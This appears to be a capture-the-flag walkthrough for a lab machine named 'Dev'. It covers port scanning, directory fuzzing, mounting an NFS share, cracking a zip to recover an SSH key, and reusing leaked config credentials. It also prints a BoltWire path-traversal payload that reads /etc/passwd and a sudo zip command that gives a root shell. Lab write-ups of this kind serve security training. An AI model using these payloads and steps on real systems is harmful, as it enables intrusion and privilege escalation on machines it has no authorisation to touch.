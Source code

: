 # Dev Walkthrough

## Enumeration
```bash
nmap -A -T4 -p- $IP -oA $IP-dev-scan
```

Of interest to us are ports: 80, 2049, and 8080:
![[nmap scan of Dev.png]]
On port 80, it seems to be running Bolt CMS, but this shows us an error page and on port 8080, we see that it's a PHP running PHP Version 7.3.27-1

Let's fuzz against port 80 and 8080. Make sure to replace the IP address with your target IP:
For port 80 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179/FUZZ
```

For port 8080 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179:8080/FUZZ
```

From the result, we see that for both ports, there is a `server-status` page.

Port 80 fuzz results:
![[ffuf fuzz on port 80.png]]

Port 8080 fuzz results:
![[ffuf fuzz on port 8080.png]]

We can try to mount the nfs directory:
```bash
showmount -e 192.168.122.179
```
![[showmount of nfs.png]]

First, make a directory, with sudo privileges, in `/mnt` called `/mnt/dev`
```bash
sudo mkdir /mnt/dev
```

Then mount the directory to `/mnt/dev`:
```bash
sudo mount -t nfs 192.168.122.179:/srv/nfs /mnt/dev
```

After changing into the directory and list out it's contents, we see that there is a password-protected zip file called `save.zip`.
Make sure to install `fcrackzip` by doing:
```bash
sudo apt install fcrackzip
``` 
to crack the zip so that we can get the password and unzip it.

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
![[fcrackzip on save.zip.png]]
Using `java101` as the password, we use `unzip save.zip` and find 2 files: `id_rsa` and `todo.txt`

If we browse to the directories listed after we had fuzzed the ports, we find something at `http://192.168.122.179/app/`
![[app directory.png]]

Might come in handy from file `config.yml`:
![[sqlite database credentials.png]]
```bash
username: bolt
password: I_love_java
```

Let's create a new user. We will use the credentials `hacker:hacker` in our example. We don't find anything that we can do with this so search on Google for **boltwire exploit**. You can also do `searchsploit boltwire`.
![[searchsploit boltwire.png]]

Let's use the exploit for LFI. The link to the exploit: https://www.exploit-db.com/exploits/48411
![[exploit-db for boltwire LFI.png]]
Make sure you have a registered user and paste it into this into the URL: `index.php?p=action.search&action=../../../../../../../etc/passwd
`
Notice that we have LFI:
![[LFI successful.png]]

`johnpaul` is a user that has `/bin/bash` access:
![[jeanpaul has bash access.png]]

Let's use `johnpaul` to `ssh` into the server. We will try to use the password that we got from the `config.yml` file.
![[ssh as jeanpaul.png]]

It works!

Try to see what `jeanpaul` can execute:
![[jeanpaul privileges.png]]

We can escalate privileges by going out to https://gtfobins.github.io/gtfobins/zip/ and copy/pasting and executing the first two lines: 
![[gtfobins for zip.png]]

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

We have root!
![[We have root and the flag.png]]

Done.